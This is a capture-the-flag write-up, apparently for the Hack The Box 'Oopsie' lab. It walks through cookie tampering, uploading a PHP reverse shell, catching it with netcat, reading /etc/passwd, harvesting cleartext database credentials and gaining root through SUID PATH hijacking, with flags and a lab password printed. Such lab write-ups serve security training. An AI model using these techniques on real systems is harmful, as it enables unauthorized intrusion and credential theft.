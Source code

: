 ----
## IPs
- victim machine - 10.129.253.197
- Kali - 10.10.14.17
---
## Initial Recon 

- Did the initial scan and found that the target is runnin ssh and a webserver
```shell
map -sC -sV 10.129.254.243

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61e43fd41ee2b2f10d3ced36283667c7 (RSA)
|   256 241da417d4e32a9c905c30588f60778d (ECDSA)
|_  256 78030eb4a1afe5c2f98d29053e29c9f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.30 seconds
```

- On the site I changed the roles and the user Id in the cookies this showed the upload form on the uploads page.
- I then uploaded a basic php script that starts a shell
- I then ran gobuster find out the location of the script on the server. Found the uploads foled . Didnt find the script that I uploaded on the server so I tried to upload the shell again with adding the  brand  name. I then found the shell
```shell
 gobuster dir -u http://oopsie.htb/uploads -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://oopsie.htb/uploads
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2023/04/04 09:20:40 Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/shell.php            (Status: 200) [Size: 0]

```

- Uploaded the shell to the server and managed to get a reverse shell by capturing it with nc -lvnp
```shell
listening on [any] 4444 ...
connect to [10.10.14.17] from (UNKNOWN) [10.129.245.74] 49018
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 17:10:53 up 58 min,  0 users,  load average: 0.02, 0.06, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
bin
boot

```
- Added a more friendly shell that has tab complete
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'       

www-data@oopsie:/var/www/html/cdn-cgi/login$ 

```

- as www-data only has minimal  we need to get access to a standard usr in the machine. I decided to look at /etc/passwd found that there is a standard user called robert
```shell
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
robert:x:1000:1000:robert:/home/robert:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false

```
- decided to try and access the Robert home folder and found the flag.
**f2c74ee8db7983851ab2a96a44eb7981**


- Given that it is a web app i decided to look at the www files to see if there is any info, found passwords in the db.php file
- 
```shell
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
$ 

```

- Logged in as  robert with his password, tried to see what robert can run, he cannot run any thing as he is not part of the sudoers group. He is part of a group called bugtrackers. **Bugtrackers is not a standard group in Linux**

```shell
robert@oopsie:/$ sudo -l
sudo -l
[sudo] password for robert: M3g4C0rpUs3r!

Sorry, user robert may not run sudo on oopsie.
robert@oopsie:/$ id
id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```
- did a locate bugtracker to see if there is anything related to bugtracker, found a binary
```shell
locate bugtracker

/usr/bin/bugtracker

```

- Got the contents of the binary
```shell
ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker

/usr/bin/bugtracker: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=b87543421344c400a95cbbe34bbc885698b52b8d, not stripped
robert@oopsie:/$ 

```

- Found that the bugs are sent the root/reports folder so decide to make cat do the execution by adding temp to path
```shell
cat: /root/reports//bin/bash: No such file or directory

robert@oopsie:/$ cd tmp
cd tmp
robert@oopsie:/tmp$ echo "/bin/sh" > cat        
echo "/bin/sh" > cat
robert@oopsie:/tmp$ chmod +x cat
robert@oopsie:/tmp$ export PATH=/tmp:$PATH
robert@oopsie:/tmp$ 

```

- adding any value to the bugtracker will now execute the binary and add give root access
```shell
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
2
---------------

# whoami
whoami
root
# 
cd /root
# ls
ls
reports  root.txt
# head root.txt
head root.txt
af13b0bee69f8a877c3faf667f7beacf
# 

```
---
## Tags
#PHP
#Web 
#CustomApplications
#SessionHandling 
#ClearTextCreds
#PathHighJacking
#WebSiteStructureRecon
#SUIDExploitation

----
## Resources

- Gets a php revese shell - https://www.revshells.com/